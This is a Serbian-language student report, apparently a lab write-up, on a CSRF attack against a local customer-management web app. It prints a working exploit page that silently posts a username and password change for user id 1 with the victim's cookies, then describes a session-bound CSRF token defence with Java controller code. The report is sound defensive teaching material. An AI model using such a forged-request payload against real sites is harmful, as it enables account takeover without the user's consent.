 # Izvestaj o XSS i CSRF

## CSRF

```html
<script>
    function exploit() {
        let fData = new FormData()
        fData.append('username', 'Crybaby')
        fData.append('password', 'c6VdmbUp6yrR5JT7FG&t%B*YezvFeq&!DZ!gDqVz8hcCzHH@8M')
        fData.append('id', 1)
        fetch('http://localhost:8080/api/customer/update-customer', {
            method: "post",
            mode: 'no-cors',
            credentials: "include",
            headers: {
                'Content-Type': 'application/json'
            },
            body: fData
        })

    }
</script>
```

Ovaj kod se nalazi na stranici index.html od projekta csrf-exploit.

Korisik dobija obavestenje da klikne pehar sto, nakon stiska, izvrsava exploit funkciju koja poziva localhost:8080/api/customer/update-customer "u njegovo" ime i izvrsava promenu imena i lozinke za id = 1

### Zastita

Zastita se odnosi na implementaciju CSRF tokena. To je uradjeno tako sto su se metode koje zahtevaju bilo kakav vid izmene podataka na serveru na stranici za izmenu podataka o korisniku "ojacani" sa *hidden* elementom koji predstavlja taj token. Token se vezuje za samu sesiju i onda kada pristigne zahtev za, recimo, brisanjem korisnika ili adrese, mi radimo proveru pristiglog tokena i tokena koji je vezan za sesiju. Kako u ovom napadu ne mozemo da znamo token za zrtvu, ovakav napad propada. 

Koristi se ``` CsrfHttpSessionListener ``` klasa koja generise te tokene. Prvo, kada korisnik ucita stranicu profila, generisemo taj token:

```java
// CustomerController.java

@GetMapping("/customer")
public String getCustomer(@RequestParam(name = "id", required = true) String id, Model model, HttpSession session) {
    String csrfToken = session.getAttribute("CSRF_TOKEN").toString();
    model.addAttribute("CSRF_TOKEN", csrfToken); // Postavljanje tokena u prosledjen zahtev ka korisniku
    model.addAttribute("customer", customerRepository.getCustomer(id));
    model.addAttribute("addresses", customerRepository.getAddresses(id));
    return "customer";
}
```
